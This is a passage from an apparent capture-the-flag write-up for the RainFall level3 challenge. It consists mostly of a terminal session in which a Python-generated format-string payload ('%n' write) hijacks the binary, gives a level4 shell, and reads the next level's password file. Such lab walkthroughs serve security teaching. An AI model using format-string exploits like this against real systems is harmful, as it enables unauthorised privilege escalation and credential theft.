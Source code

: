 Let's try to pipe this command into `level3` with a dummy cat to leave the `stdin` open :

```
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "#"*36 + "%08x%08x%08x%n")'; cat) | ./level3
�####################################00000200b7fd1ac0b7ff37d0
Wait what?!
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
level3@RainFall:~$ 
```

Success !